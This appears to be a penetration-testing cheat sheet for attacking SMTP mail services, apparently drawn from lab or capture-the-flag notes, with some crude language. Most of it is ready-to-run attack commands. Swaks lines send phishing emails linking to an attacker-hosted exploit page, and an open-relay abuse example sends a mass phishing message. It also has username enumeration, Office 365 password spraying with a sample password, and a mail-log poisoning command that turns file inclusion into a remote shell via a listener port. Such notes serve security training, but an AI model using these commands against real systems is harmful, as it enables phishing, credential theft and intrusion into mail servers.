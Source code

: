 - swaks
```
swaks --to itsupport@outdated.htb --from kok@fuck.htb --server mail.outdated.htb --header "Subject: Internal web app" --body "http://10.10.16.18/exp.html"
swaks --to btables@outdated.htb --from test@yourdomain.com --server mail.outdated.htb --auth LOGIN --auth-user btables@outdated.htb --auth-password yourpassword
```

## Attacks

### Open Relay
```shell
sudo nmap 10.129.14.128 -sC -sV -p25 --script smtp-open-relay

# Next, we can use any mail client to connect to the mail server and send our email.
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

### Enumrate usernames
```bash
smtp-user-enum -M VRFY -U username   -t 10.129.247.222  -p 25 -w 60
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.204.164
```


### Cloud Enumeration
- [o365spray](https://github.com/0xZDH/o365spray) for microsoft
- [MailSniper](https://github.com/dafthack/MailSniper) for microsoft
- [CredKing](https://github.com/ustayready/CredKing) for gmail and okta 

```shell 
python3 o365spray.py --validate --domain msplaintext.xyz

python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz

python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz 
```

### RCE
if we have lfi we can achive RCE

- check this [Mail-Poison-RCE](https://github.com/Ananthavijay/Mail-Poison-RCE)
```bash
Authenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test -us user -pw root

Unauthenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test
```
- manual
```bash
nc <ip> <port>
220 debian.localdomain ESMTP Postfix (Debian/GNU)
HELO x 
250 debian.localdomain
MAIL FROM: fucker
250 2.1.0 Ok
RCPT TO: michael
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
```
